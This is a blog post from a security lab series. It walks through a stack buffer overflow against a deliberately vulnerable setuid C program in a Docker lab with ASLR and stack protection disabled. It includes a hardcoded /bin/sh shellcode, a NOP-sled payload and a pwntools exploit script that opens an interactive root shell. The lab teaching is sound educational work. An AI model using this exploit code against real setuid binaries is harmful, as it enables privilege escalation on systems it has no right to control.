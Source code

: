 ```yaml
---
layout: post
title: Stack Smash Shellcode
category: system_security
author: 'reo'
tags: python seclab docker c privilege_escalation
mathjax: 
---
```


Continuing our [last lab](/crypto/2020/11/03/10-stack-branch.html)
we will use a buffer overflow to run an exploit which will
allow for [privilege escalation](https://en.wikipedia.org/wiki/Privilege_escalation).

## Contents
{:.no_toc}

* Content
{:toc}

<br>

***

## Setup

***

Our setup here is that Mallory has found an executable with the *setuid* flag
enabled. Essentially this allows Mallory to run the executable with the
permissions of the owner of the file. The executable `/root/vuln` then
runs with root permissions even if Mallory is the one executing it.

Mallory wants to find a vulnerability which allows them to inject shellcode which
spawns an interactive shell.

The vulnerable program this time is

```c
#include <stdio.h>
#include <string.h>

void func(char *name)
{
    char buf[256];
    strcpy(buf, name);
    printf("Hello %s\n", buf);
}

int main(int argc, char *argv[])
{
    func(argv[1]);
    return 0;
}
```

recall in our case, ASLR and dmesg restrict are disabled

```
$ docker run --rm -v $(pwd):/shared --privileged -it thierrysans/vulnerable:stack-smashing-shellcode bash
# echo 0 > /proc/sys/kernel/randomize_va_space
# echo 0 > /proc/sys/kernel/dmesg_restrict
```

<br>

***

## Observations

***

We can compile the executable and disassemble it

```
/shared# gcc vuln.c -o vuln -fno-stack-protector -m32 -z execstack
/shared# objdump -d -M intel vuln > dump.dmp
```

the only new argument here is `-z execstack` which as you can guess,
makes the stack executable. Taking a look at `<func>` in the dump file,
we find

```
...
 804844a:    8d 85 f8 fe ff ff        lea    eax,[ebp-0x108]
...
```

so 264 bytes are reserved for the buffer. We expect the address
where the program jumps to to be stored in bytes 269-272 after the start
of the buffer. To test this, we send 268 `'a'` followed by `bcde` getting

```
/shared# ./vuln aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabcdefghijk
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabcdefghijk
Segmentation fault (core dumped)
/shared# dmesg | grep "vuln" | tail -n 1
[17158.493232] vuln[4467]: segfault at 65646362 ip 0000000065646362 sp 00000000ffffd6b0 error 14
```

with the segfault occuring exactly where we expect. We also know from the log that
the stack pointer `sp` was at `0xffffd6b0` when the segfault happened, we can use this
to compute where the buffer begins in memory. Including our 4 added characters, the
length of our malicious payload was `268+4 = 272=0x110` bytes long. Subtracting this
from our `sp` we have that the buffer begins at `0xffffd6b0 - 0x110 = 0xffffd5a0`.

We will use room the buffer offers us to inject shellcode and point the jump
back into the buffer so that it executes the shellcode.
We are given the shellcode and the only remaining detail is deciding what
to set the address of our jump. Instead of relying on jumping exactly at the
beginning of our shellcode, we will add NOP padding before and after and attempt
to land somewhere in the middle to maximize our chances.

<br>

***

## The Exploit

***

We can write a script to send our payload through

```python
import sys

shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'
payload = b'\x90'*128 + shellcode + b'a'*115 + b'\xd0\xd5\xff\xff'
sys.stdout.buffer.write(payload)
```

and this would give us a shell however we can do better with a more abstract solution using pwntools

```python
from pwn import *
from shellcode import get_shellcode

pwnlib.term.term_mode= False
```

We can use the shellcraft module to generate the shellcode for an sh session

```python
def get_shellcode():
     return asm(shellcraft.i386.linux.sh())
```

the creation of the payload will be similar to our branching exercise except
instead of branching to another function, we will branch to somewhere within
our stack to execute the shellcode we produced.

```python
def craft_payload(path_to_vuln_prgm, shellcode):
    '''
    returns the payload for the attack
    given the path to the vulnerable binary
    and the shellcode from get_shellcode in shellcode.py
    (string, bytes) -> bytes
    '''
    de_brujin = cyclic(315)
    p = process([path_to_vuln_prgm, de_brujin])
    p.wait_for_close()
    debug_msg = process('dmesg | grep "vuln" | tail -n 1', stdout=subprocess.PIPE,
            shell=True).recvall()

    # save eip, esp from dmesg
    eip = int(re.search(b'ip\ (.*)\ sp', debug_msg).group(1), 16)
    esp = int(re.search(b'sp\ (.*)\ error', debug_msg).group(1), 16)
    #  esp = int(re.search(b'at\ (.*)\ sp', debug_msg).group(1), 16)
    overflow_len = cyclic_find(p32(eip))

    addr = esp - ((3/4)*overflow_len)
    NOPlen = int(3*(overflow_len - len(shellcode))/4)
    padlen = overflow_len - (NOPlen + len(shellcode))

    payload = b'\x90'*NOPlen + shellcode + b'a'*padlen + p32(int(addr))

    return payload
```

The goal of our computations will be for our memory to look something like this

```
      +--------+ <- start of buffer
      |  NOP   |
      |  SLED  |
 addr |        | <- want to jump somewhere in the middle
      |        |
      +--------+
      | SHELL  | <- our planted shellcode
      | CODE   |
      |        |
      |        |
      +--------+
      ~  ..... ~ <- additional pad
      +--------+
      |  addr  | <- return address
      |        |
      +--------+  
```

so we land somewhere in the NOP sled which slides us nicely into
our shellcode which executes sh. All that remains is making the
process interactive in python

```python
def run(path_to_vuln_prgm):
    shellcode = get_shellcode()
    payload = craft_payload(path_to_vuln_prgm, shellcode)
    p = process([path_to_vuln_prgm, payload])
    p.interactive()
```

<br>

***

## Cleanup

***

Finally, don't forget to check that the protections are enabled for your own
machine

```
$ echo 2 > /proc/sys/kernel/randomize_va_space
$ echo 1 > /proc/sys/kernel/dmesg_restrict
```

also don't forget to [clean up](/crypto/2020/10/08/05-lab.html#docker-cleanup)
after Docker.

{% include lab_credits.md %}

This post was inspired by [another cool blog post](https://dhavalkapil.com/blogs/Shellcode-Injection/).

